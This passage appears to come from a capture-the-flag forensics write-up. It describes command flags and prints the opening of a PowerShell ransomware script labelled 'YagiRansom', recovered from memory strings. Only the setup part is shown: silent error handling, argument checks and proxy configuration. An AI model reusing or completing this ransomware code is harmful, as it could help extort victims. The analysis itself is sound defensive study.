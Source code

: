 > -p 443: Uses port 443

> -x: Unknown 


![alt text](<../../../assets/images/urgent-tina/2025-04-05_02-16.png>)
_Strings Content (Powershell code block)_
A PowerShell sciprt block was found right below the place we found where the program was executed. The script is pretty long.

```powershell
# Design
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }
# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null
# Errors
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
```